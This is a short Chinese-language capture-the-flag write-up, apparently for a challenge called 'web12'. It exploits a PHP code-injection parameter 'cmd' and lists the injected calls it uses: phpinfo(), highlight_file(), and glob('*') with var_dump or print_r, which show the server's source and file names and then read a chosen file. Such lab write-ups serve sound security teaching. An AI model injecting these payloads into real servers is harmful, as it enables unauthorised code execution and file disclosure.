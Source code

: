 # web12
先查看网页源码,发现提示
![](vx_images/540967094560651.png)
让我们get提交cmd变量,先蒙一下命令执行cmd=phpinfo();
![](vx_images/151322741648632.png)
证实了想法,但可能有过滤
用show_resource('index.php')或是highlight_file()查看源代码
![](vx_images/412842185726303.png)

发现没有过滤,但是需注意将信息显示出来
用glob()函数,glob("*")查找所有文件名
var_dump(glob("*"));
![](vx_images/482206198440585.png)
print_r(glob("\*"));
show_resource('filename')或是highlight_file('filename')
![](vx_images/14699962158281.png)